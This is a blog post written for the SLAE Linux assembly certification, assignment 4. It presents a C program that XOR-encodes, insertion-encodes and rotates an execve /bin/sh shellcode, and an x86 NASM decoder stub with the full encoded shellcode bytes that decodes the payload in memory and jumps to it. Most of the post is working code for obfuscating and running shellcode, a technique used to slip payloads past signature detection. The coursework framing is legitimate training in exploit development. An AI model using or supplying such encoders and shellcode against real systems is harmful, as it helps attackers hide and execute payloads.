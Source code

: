 ```yaml
---
author: pol@blog
comments: true
date: 2014-04-09 16:57:06+00:00
layout: post
slug: slae-assignment-4-custom-encoding-schema
title: 'SLAE Assignment 4: Custom Encoding Schema'
wordpress_id: 2361
categories:
- Programmazione
- SLAE
tags:
- asm-x86
- nasm
- slae
---
```


This is the fourth of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:



	
  1. Create a custom encoding schema like "insertion encoder"

	
  2. Create a working demo using execve-stack as the shellcode to encode, decode and run with the created schema


The custom encoding schema that I chose to create works as follow:

	
  1. The execve shellcode is encoded with XOR

	
  2. The result will be encoded using the insertion encoder with an incrementing value

	
  3. Every 32 bits the above result will be rotated (left or right, you choose) of 16 bits.


<!-- more -->

To encode the execve shellcode, like I wrote above, I developed the following C program:

    
    //Description:	Assignment #4 (PoC of Custom_Encoding_Schema)
    //Author:	Paolo Stivanin <https://github.com/polslinux>
    //SLAE ID:	526
    
    #include <stdint.h>
    #include <string.h>
    #include <stdio.h>
    #include <stdlib.h>
    
    #define ROL 0x00
    #define ROR !ROL
    
    void concatenate(uint8_t [], uint32_t);
    void rotate(uint32_t, uint32_t, uint32_t);
    void split_uint32(uint32_t);
    
    uint8_t *finalShellcode;
    uint32_t counter = 0;
    
    int main(void){
    	uint8_t execveShellcode[] = {0xeb,0x25,0x5e,0x89,0xf7,0x31,0xc0,0x50,0x89,0xe2,0x50,0x83,0xc4,0x03,0x8d,0x76,0x04,0x33,0x06,0x50,0x31,0xc0,0x33,0x07,0x50,0x89,0xe3,0x31,0xc0,0x50,0x8d,0x3b,0x57,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0xe8,0xd6,0xff,0xff,0xff,0x2f,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68};
    	uint8_t xorByte = 0x1c;
    	uint8_t insertByte = 0xb2;
    
    	size_t LEN=sizeof(execveShellcode);
    	uint8_t xorWithInsertion[LEN*2];
    	uint32_t i, j=0;
    
    	restart:
    	for(i=0; i<LEN; i++){
    		if(execveShellcode[i] == xorByte){
    			xorByte += 1;
    			goto restart;
    		}
    	}
    	for(i=0; i<LEN; i++){
    		execveShellcode[i] ^= xorByte;
    	}
    
    	printf("XOR(Shellcode) using 0x%02x:\n", xorByte);
    	for(i=0; i<LEN; i++){
    		if(i==LEN-1) printf("0x%02x", execveShellcode[i]);
    		else printf("0x%02x,", execveShellcode[i]);
    	}
    
    	for(i=0; i<LEN*2; i++){
    		xorWithInsertion[i] = execveShellcode[j++];
    		xorWithInsertion[++i] = insertByte++;
    	}
    	printf("\n\nINSERTION(XOR(Shellcode)):\n");
    	for(i=0; i<LEN*2; i++){
    		if(i==(LEN*2)-1) printf("0x%02x", xorWithInsertion[i]);
    		else printf("0x%02x,", xorWithInsertion[i]);
    	}	
    
    	printf("\n\nROL16(XOR(INSERTION(Shellcode))):\n");
    
    	finalShellcode = malloc(sizeof(xorWithInsertion));
    	concatenate(xorWithInsertion, sizeof(xorWithInsertion));
    
    	for(i=0; i<LEN*2; i++){
    		if(i==(LEN*2)-1) printf("0x%02x", finalShellcode[i]);
    		else printf("0x%02x,", finalShellcode[i]);
    	}
    	printf("\n");
    
    	free(finalShellcode);
    
    	return 0;
    }
    
    void concatenate(uint8_t arr[], uint32_t size){
    	if(size % 4 != 0){
    		printf("Size must be a multiple of 4\n");
    		return;
    	}
    
    	uint32_t i, value = 0;
    
    	for(i=0;i<size;i++){
    		value = value^arr[i];
    		if(i%4 == 3){
    			rotate(value, 16, ROL);
    			value = 0;
    		}
    		else value = value<<8;
    	}
    }
    
    void rotate(uint32_t input, uint32_t bits, uint32_t direction){
    	uint32_t output;
    
    	if(direction == ROL){
    		output = input << (bits % (8 * sizeof(uint32_t)));
    		output |= input >> ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
    	}
    	else
    	{
    		output = input >> (bits % (8 * sizeof(uint32_t)));
    		output |= input << ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
    	}
    	split_uint32(output);
    }
    
    void split_uint32(uint32_t splitMe){
    	uint32_t j;
    	uint8_t b[4];
    	b[0] = (splitMe >> 24);
    	b[1] = (splitMe >> 16) & 0xff;
    	b[2] = (splitMe & 0xffff) >> 8;
    	b[3] = (splitMe & 0xff);
    	for(j=0; j<4; j++){
    		finalShellcode[counter++] = b[j];
    	}
    }


And this is the shellcode used to decode and execute the original execve shellcode:

    
    ;Description:	Assignment #4 (Custom_Encoding_Schema, 82 (decoder) + 104 (EncodedShellcode) bytes)
    ;Shellcode:		\xeb\x4b\x5e\x31\xc0\x31\xdb\xb1\x0d\x31\xd2\x8a\x26\x8a\x46\x01\xc1\xc0\x10\x8a\x66\x02\x8a\x46\x03\x83\xc6\x04\x8a\x3e\x8a\x5e\x01\xc1\xc3\x10\x8a\x7e\x02\x8a\x5e\x03\x83\xc6\x04\x88\xe6\xc1\xc0\x10\x88\xf0\xc1\xc0\x10\x88\xfe\xc1\xc3\x10\x88\xf3\x66\x89\xd8\x35\x1c\x1c\x1c\x1c\x50\xfe\xc9\x75\xc0\xff\xe4\xe8\xb0\xff\xff\xff\x74\xe5\x6f\xe4\x33\xe3\x72\xe2\x75\xe1\x7e\xe0\x33\xdf\x33\xde\xe3\xdd\xe3\xdc\xe3\xdb\xca\xda\xf4\xd9\x9c\xd8\xd1\xd7\x17\xd6\xac\xd5\xfd\xd4\x95\xd3\x4b\xd2\x27\xd1\x91\xd0\x4c\xcf\xdc\xce\x2d\xcd\xff\xcc\x95\xcb\x4c\xca\x1b\xc9\x2f\xc8\xdc\xc7\x2d\xc6\x4c\xc5\x1a\xc4\x2f\xc3\x18\xc2\x6a\xc1\x91\xc0\x1f\xbf\xd8\xbe\x9f\xbd\x4c\xbc\xfe\xbb\x95\xba\x4c\xb9\xdc\xb8\x2d\xb7\xeb\xb6\x95\xb5\x42\xb4\x39\xb3\xf7\xb2
    ;Author:	Paolo Stivanin <https://github.com/polslinux>
    ;SLAE ID:	526
    
    global _start
    section .text
    _start:
    	jmp short call_shellcode
    
    decoder:
    	pop esi
    	xor eax,eax
    	xor ebx,ebx
    	mov cl,13	;This is the counter. The shellcode is 104 bytes and this program read 8 byte every cycle so 104/8=13
    	xor edx,edx
    ll:	mov ah, BYTE [esi]
    	mov al, BYTE [esi +1]
    	rol eax,16
    	mov ah, BYTE [esi +2] 
    	mov al, BYTE [esi +3]
    	add esi,4
    	mov bh, BYTE [esi]
    	mov bl, BYTE [esi +1]
    	rol ebx,16
    	mov bh, BYTE [esi +2]
    	mov bl, BYTE [esi +3]
    	add esi,4
    
    	mov dh,ah
    	rol eax,16
    	mov al,dh
    	rol eax,16
    
    	mov dh,bh
    	rol ebx,16
    	mov bl,dh
    
    	mov ax,bx
    	xor eax,0x1c1c1c1c
    	push eax
    	dec cl
    	jnz ll
    	jmp esp	
    
    call_shellcode:
    	call decoder
    	EncodedShellcode db 0x74,0xe5,0x6f,0xe4,0x33,0xe3,0x72,0xe2,0x75,0xe1,0x7e,0xe0,0x33,0xdf,0x33,0xde,0xe3,0xdd,0xe3,0xdc,0xe3,0xdb,0xca,0xda,0xf4,0xd9,0x9c,0xd8,0xd1,0xd7,0x17,0xd6,0xac,0xd5,0xfd,0xd4,0x95,0xd3,0x4b,0xd2,0x27,0xd1,0x91,0xd0,0x4c,0xcf,0xdc,0xce,0x2d,0xcd,0xff,0xcc,0x95,0xcb,0x4c,0xca,0x1b,0xc9,0x2f,0xc8,0xdc,0xc7,0x2d,0xc6,0x4c,0xc5,0x1a,0xc4,0x2f,0xc3,0x18,0xc2,0x6a,0xc1,0x91,0xc0,0x1f,0xbf,0xd8,0xbe,0x9f,0xbd,0x4c,0xbc,0xfe,0xbb,0x95,0xba,0x4c,0xb9,0xdc,0xb8,0x2d,0xb7,0xeb,0xb6,0x95,0xb5,0x42,0xb4,0x39,0xb3,0xf7,0xb2


Please note that the _EncodedShellcode_ **must** **be wrote in reverse order**. To do this you can use [this small program](https://github.com/polslinux/SLAE/blob/master/utility/for-shellcode/reverse-shellcode.c) that i developed to perform this task.

Using libemu I made a graph of the execution flow of the above shellcode:

[![graph_assign4]({{ site.baseurl }}/images/2014/04/graph_assign4-551x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign4.png)

And, as you can see in the picture below, it works ;-)

[![assign4]({{ site.baseurl }}/images/2014/04/assign4-1024x525.png)]({{ site.baseurl }}/images/2014/04/assign4.png)



All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).





This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)
**Student ID: SLAE-526**
